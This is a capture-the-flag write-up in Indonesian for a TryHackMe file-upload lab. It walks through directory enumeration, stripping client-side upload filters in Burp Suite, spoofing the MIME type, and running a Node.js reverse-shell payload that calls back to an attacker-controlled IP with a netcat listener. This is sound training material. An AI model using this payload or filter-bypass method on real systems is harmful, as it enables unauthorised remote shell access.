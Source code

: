 # Upload Vuln Challenge

[challenge is here](https://tryhackme.com/room/uploadvulns)

lakukan scanning direktori pada web dengan gobuster ke jewel.uploadvuln.thm dengan cara
```shell
gobuster dir -u http://jewel.uploadvulns.thm/ -w /usr/share/wordlists/dirb/big.txt  -t 250
```

hasilnya seperti berikut
```shell
...
/Admin                (Status: 200) [Size: 1238]
/ADMIN                (Status: 200) [Size: 1238]
/Content              (Status: 301) [Size: 181] [--> /Content/]
/admin                (Status: 200) [Size: 1238]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/content              (Status: 301) [Size: 181] [--> /content/]
/modules              (Status: 301) [Size: 181] [--> /modules/]
/secci�               (Status: 400) [Size: 1092]
...
```

dari hasil enumerating dir tersebut, didapat 3 buah dir yang menarik, yaitu `/admin` yang mana dalam hal ini dapat digunakan untuk mengeksekusi modules. `/content` merupakan tempat dimana file kita terupload. `/modules` dimana kita menaruh file module yang dapat dieksekusi pada saat kita mengunjungi admin.

selanjutnya buka burpsuite. lakukan intercept dan kirim ke repeater. hasil response adalah seperti berikut:

```shell
HTTP/1.1 304 Not Modified
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 14 Oct 2023 10:39:25 GMT
Connection: close
X-Powered-By: Express
Access-Control-Allow-Origin: *
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Fri, 03 Jul 2020 20:57:40 GMT
ETag: W/"5ea-173167875a0"
Front-End-Https: on
```

kita dapat foklus ke bagian `Server` dan `X-Powered-By`, dimana server yang digunakan adalah Ubuntu Server dan berjalan dengan Express yang mana adalah backend framework built on Node.js, intinya berbasis javascript.

selanjutnya kita lihat source code nya dengan cara `view page source` di firefox.

```html
...
<script src="assets/js/upload.js"></script>
...
...
<main>
			<object ondragstart="return false;" ondrop="return false;" id="title" data="/assets/title.svg" type="image/svg+xml"></object>
			<p>Have you got a nice image of a gem or a jewel?<br>Upload it here and we'll add it to the slides!</p>
			<button class="Btn" id="uploadBtn"><i id="uploadIcon" class="material-icons">backup</i> Select and Upload</button>
			<input id="fileSelect" type="file" name="fileToUpload" accept="image/jpeg">
		</main>
...
```

dapat dilihat bahwa file yang dapat diterima oleh website hanyalah yang berformat `jpg`, selain itu ada juga file `upload.js`, kita dapat melihat source code js nya juga

```js
...
			//Check File Size
			if (event.target.result.length > 50 * 8 * 1024){
				setResponseMsg("File too big", "red");			
				return;
			}
			//Check Magic Number
			if (atob(event.target.result.split(",")[1]).slice(0,3) != "ÿØÿ"){
				setResponseMsg("Invalid file format", "red");
				return;	
			}
			//Check File Extension
			const extension = fileBox.name.split(".")[1].toLowerCase();
			if (extension != "jpg" && extension != "jpeg"){
				setResponseMsg("Invalid file format", "red");
				return;
			}
...
```

selain hanya menerima file berekstensi jpg, ternyata web ini juga memiliki filter file size dan juga magic number. namun semua filter tersebut terjadi di client side, yang mana kita dapat bypass dengan mengedit source code nya.

selanjutnya, kita dapat mencoba upload file dengan ekstensi yang benar, dan karena filenya secara ekstensi dan magic number adalah benar, maka file akan sukses terupload. namun untuk ekstensi selain jpg akan gagal.

untuk mencari file yang telah kita upload, kita dapat menggunakan gobuster lagi, namun kali ini dengan menggunakan wordlists yang telah disediakan oleh tryhackme, dan fokus secara spesifik di `jewel.uploadvuln.thm/content` karena kita tahu bahwa file akan otomatis berada di `/content`.

```shell
gobuster dir -u http://jewel.uploadvulns.thm/content -w ~/Downloads/UploadVulnsWordlist.txt -x jpg
```

hasilnya akan berisi nama-nama random, yang kita bisa cek dengan mengunjunginya langsung. contoh `jewel.uploadvulns.thm/content/ARE.jpg`

```shell
...
/ABH.jpg              (Status: 200) [Size: 705442]
/ARE.jpg              (Status: 200) [Size: 15946]
...
```

selanjutnya kita akan memodifikasi `request interception rule` yang ada di burpsuite. kita edit bagian file extension dengan menghapus ekstensi `|^js$|`.

selanjutnya kita dapat intercept lagi lewat burpsuite, pada bagian `../assets/js/upload.js`, dengan cara klik kanan pada intercept messages lalu pilih `Do Intercept>Response to this requests`, selanjutnya edit dengan menghapus function berikut

```js
...
reader.onload=function(event){

			//Check File Size
			if (event.target.result.length > 50 * 8 * 1024){
				setResponseMsg("File too big", "red");			
				return;
			}
			//Check Magic Number
			if (atob(event.target.result.split(",")[1]).slice(0,3) != "ÿØÿ"){
				setResponseMsg("Invalid file format", "red");
				return;	
			}
			//Check File Extension
			const extension = fileBox.name.split(".")[1].toLowerCase();
			if (extension != "jpg" && extension != "jpeg"){
				setResponseMsg("Invalid file format", "red");
				return;
			}

const text={success:"File successfully uploaded",failure:"No file selected",invalid:"Invalid file type"};
...
```

menjadi

```js
...
reader.onload=function(event){

const text={success:"File successfully uploaded",failure:"No file selected",invalid:"Invalid file type"};
...
```

lalu forward. lakukan juga pada bagian index.html dengan menghapus

```html
...
</button>
			<input id="fileSelect" type="file" name="fileToUpload" accept="image/jpeg">
		</main>
...
```

menjadi

```html
...
</button>
			<input id="fileSelect" type="file" name="fileToUpload">
		</main>
...
```

hal itu akan menyebabkan filter ekstensi pada client side hilang.

selanjutnya kita dapat melakukan percobaan untuk menebak apa filter yang digunakan pada server side. dengan cara:

- upload file dengan extensi random (contoh: gambar.jpgitugambar)
- upload file yang telah diubah magic numbernya (contoh: gambar.jpg tapi memiliki magic number .gif)
- MIME type atau mengganti ekstensi saat di intercept

hasil:

- server side menggunakan whitelist filter daripada blacklist filter
- server side tidak menggunakan magic number filter
- MIME type tentu berhasil jika jadi `image/jpg` selain itu akan invalid, sehingga MIME type filter aktif dalam server side

selanjutnya, kita akan gunakan payload untuk revshell. karena kita tahu service yang digunakan adalah berbasiskan js, maka kita memerlukan payload js. payload dapat diambil dari [sini](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md?source=post_page-----32f7b2e555c3--------------------------------#nodejs).

copy payload dan edit port serta ip menjadi ip `tun0`

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(PORT, "IP_tun0_local", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

lalu simpan dengan format `shell.js`.

selanjutnya hidupkan intercept sebelum upload file. selanjutnya kita upload file `shell.js` tersebut. kita tidak perlu menggantinya filetypenya, daripada itu, kita dapat menggantinya saat POST request saat upload file dengan mengganti MIME type di burpsuite.

```html
...
"name":"shell.js",
"type":"text/javascript",
...
```

menjadi

```html
...
"name":"shell.jpg",
"type":"image/jpeg",
...
```

dan selanjutnya forward. nantinya akan berhasil. setelah itu kita enumerate lagi dengan menggunakan gobuster untuk mencari file yang barusan kita upload

```shell
gobuster dir -u http://jewel.uploadvulns.thm/content -w ~/Downloads/UploadVulnsWordlist.txt -x jpg
```

hasilnya

```shell
...
/ABH.jpg              (Status: 200) [Size: 705442]
/ARE.jpg              (Status: 200) [Size: 15946]
/BNQ.jpg              (Status: 200) [Size: 15946]
/GTH.jpg              (Status: 200) [Size: 383]
...
```

kita dapat langsung fokus dengan file yang memiliki size kecil karena file payload kita hanya berisi text. selanjutnya kita pergi ke `../admin` page untuk mengeksekusi payload. selanjutnya kita siapkan dulu netcat listener dengan cara `nc -lvnp PORT` dengan port yang sudah kita set pada payload. selanjutnya kita dapat eksekusi payload dengan mengisi input `../content/nama_file.jpg`, nantinya jika berhasil netcat akan terkoneksi dan kita akan mendapatkan shell session, gunakan shell tersebut untuk mendapatkan flag di `/var/www`.